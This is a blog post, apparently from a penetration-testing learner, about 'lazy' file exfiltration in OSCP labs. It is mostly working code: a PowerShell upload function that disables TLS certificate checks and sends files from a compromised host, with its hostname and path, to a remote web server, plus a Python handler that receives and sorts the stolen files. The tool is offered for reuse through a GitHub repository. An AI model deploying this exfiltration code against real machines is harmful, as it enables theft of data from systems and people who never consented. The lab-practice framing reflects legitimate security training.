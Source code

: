 ```yaml
---
title: "Lazy file exfiltration for OSCP labs with powershell python and crackmapexec"
date: 2024-02-08T15:34:30-06:00
categories:
  - blog
tags:
  - exfiltration
  - python
  - powershell
  - OSCP
---
```

<b>Lazy is good when the result is that lazy becomes affordable.</b>

<b>Background:</b>
While diving into OSCP labs, I found myself searching through disk contents for clues. Although I'm adept at using the command line, sometimes the ease of navigating folders visually is preferable. Missing crucial details in a lab, likely from being tired, made me decide to find a better solution to avoid such misses.

<b>The Idea:</b>
My plan was to automate a simple yet effective process. The goal was to filter and exfiltrate files to a web server where I could easily sift through them. Simplicity was the cornerstone.

<b>Solution:</b>
I opted for a Powershell script utilizing Get-ChildItem with a -Filter parameter, coupled with the System.Net.Webclient class for exfiltration. I discovered a Python3 web server by another creator that fit my initial needs and decided to build upon it. Credit to the original creator: Lightweight HTTP Upload Server.

<b>Challenge:</b>
I needed more than just dumping files into a single folder; I wanted them organized. This meant enhancing the server to handle additional data from my script for better file management.

<b>Check It Out:</b>
See the current version on GitHub: Jeamajoal's Lazy PwshPy Exfiltrator. The Powershell script's core functionality is in the upload function, where it sends file data along with the file path, so the server knows where to place the files.

<b>Powershell snippet for uploading files:</b>

```powershell

function UploadToWebServer($filepath, $url) {
        [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true } ;
        $filename = Split-Path $FilePath -Leaf
        $boundary = [System.Guid]::NewGuid().ToString()

        $TheFile = [System.IO.File]::ReadAllBytes($filePath)
        $TheFileContent = [System.Text.Encoding]::GetEncoding('iso-8859-1').GetString($TheFile)

        $id = $env:computername

        $LF = "`r`n"
        $bodyLines = (
            "--$boundary",
            "Content-Disposition: form-data; name=`"path`"$LF",
            $(Split-Path $FilePath),
            "--$boundary",
            "Content-Disposition: form-data; name=`"id`"$LF",
            $id,
            "--$boundary",
            "Content-Disposition: form-data; name=`"filename`"; filename=`"$filename`"",
            "Content-Type: application/json$LF",
            $TheFileContent,
            "--$boundary--$LF"
        ) -join $LF

        Invoke-RestMethod $url -Method POST -ContentType "multipart/form-data; boundary=`"$boundary`"" -Body $bodyLines
    }
    
```

<b>Python server side for handling the data:</b>

```python
def deal_post_data(self):
        global serverpath 
        line = b'' #Initialize line data as byte
        file_data = b''  # Initialize file_data as an empty byte string
        in_file_data = False #Initialize in file as boolean
        content_type = self.headers['content-type']
        if not content_type:
            return (False, "Content-Type header doesn't contain boundary")
        boundary = content_type.split("=")[1]
        boundary = boundary.replace('"','').encode()
        end_boundary = boundary + b"--"
        totalbytes = int(self.headers['content-length'])
        remainbytes = totalbytes
        #modify serverpath with alternate upload dir  
        if uDir:
            serverpath = os.path.join(os.getcwd(),uDir)
        else:
            serverpath = os.getcwd()
   
        #Process request
        while remainbytes > 0:
            line = self.rfile.readline()
            remainbytes -= len(line)

            if in_file_data:
                if boundary in line:
                    in_file_data = False
                    file_data = file_data[:-2]  # Remove the last CRLF before boundary
                    if end_boundary in line:
                        break  # End of data
                else:
                    file_data += line
                    continue

            if end_boundary in line:
                        break  # End of data
            if boundary in line:
                line = self.rfile.readline()
                remainbytes -= len(line)
                id = re.findall(r'Content-Disposition.*name="id"', line.decode())
                reqpath = re.findall(r'Content-Disposition.*name="path"', line.decode())
                fn = re.findall(r'Content-Disposition.*name="filename"; filename="(.*)"', line.decode())
                if fn:
                    in_file_data = True
                    file_name = re.findall(r'Content-Disposition.*name="filename"; filename="(.*)"', line.decode())
                    file_data = file_data[:-2]
                    line = self.rfile.readline()
                    remainbytes -= len(line)
                    line = self.rfile.readline()
                    remainbytes -= len(line)

                elif reqpath:
                    line = self.rfile.readline()
                    remainbytes -= len(line)
                    line = self.rfile.readline()
                    remainbytes -= len(line)
                    reqpath = line
                    ip_address = self.client_address[0]
                    #remove \r\n
                    reqpathstr = reqpath.decode()
                    reqpathstr = reqpathstr.replace("\r","")
                    reqpathstr = reqpathstr.replace("\n","")
                    if reqpathstr.startswith('/') or reqpathstr.startswith('\\'):
                        reqpathstr = reqpathstr.strip('/')
                        reqpathstr = reqpathstr.strip('\\')
                    reqpathstr = reqpathstr.replace('\\','/')
                    reqpathstr = reqpathstr.replace('\\','/')
                    reqpathstr = reqpathstr.replace('//','/')
                    reqpathstr = reqpathstr.replace(':','')
                    reqpathstr = os.path.join(ip_address,reqpathstr)
                    finalpath = os.path.join(serverpath,reqpathstr)

                elif id:
                    #print(line)
                    line = self.rfile.readline()
                    #print(line)
                    remainbytes -= len(line)
                    line = self.rfile.readline()
                    #print(line)
                    remainbytes -= len(line)
                    line = line.decode()
                    line = line.replace("\r","")
                    line = line.replace("\n","")
                    newid = line
                    
        if finalpath:
            serverpath = finalpath                    
        
        if newid:
            serverpath = serverpath.replace(ip_address,newid)

        serverpath = serverpath.lower()
        if not os.path.exists(serverpath):
            os.makedirs(serverpath)

        fn = os.path.join(serverpath, file_name[0])
        #print(f'Final upload path: {serverpath}')
        try:
            with open(fn, 'wb') as out:
                out.write(file_data)
            return ('succeeded',self.client_address,fn )
        except:
            return ('Failed',self.client_address,fn )
```

Check out the github repo where i will add some use caes and screenshots so you can feel like you were there.


